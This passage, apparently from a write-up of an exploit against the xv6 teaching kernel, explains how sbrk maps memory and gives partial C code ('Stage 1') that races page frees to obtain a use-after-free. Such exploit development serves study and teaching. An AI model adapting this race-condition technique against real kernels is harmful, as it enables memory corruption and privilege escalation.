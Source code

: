 The `sbrk` function takes as input the size of the requested increment in the virtual memory space of the process.This call traps into kernel mode and calls the corresponding `sys_sbrk`, which in turn calls `growproc`, which in turn calls `uvmalloc`. Finally, this function calls `kalloc` and `mappages`. The latter function maps the address returned by `kalloc` (physical address) with the old size of the process as the start address of the new memory area.

The following code triggers the race condition and results in a use-after-free in one physical page:

{{< code language="c" title="Stage 1" id="6" expand="Show" collapse="Hide" isCollapsed="false" >}}
#define PAGE_SIZE 4096
#define PAGES 100

void process1()
{
    for (int i = 0; i < PAGES; i++)
        sbrk(-PAGE_SIZE);

    sleep(50);
    
    [...]
}

void process2(uint64 *t[PAGES])
{
    sleep(30);

    int page = -1;

    for (int i = 0; i < PAGES; i++)
    {
        for (int j = 0; j < PAGE_SIZE; j++)
        {
            if (((char *)t[i])[j] != 0)
            {
                page = i;
                break;
            }
        }

        if (page != -1)
            break;
    }

    if (page == -1)
    {
        printf("[-] Exploit fails.");
        exit(-1);
    }

    printf("[+] Got UAF on page %d\n", page);
	
	[...]
}

int main()
{
    printf("[*] Stage 1: Trigger race condition and get UAF\n");
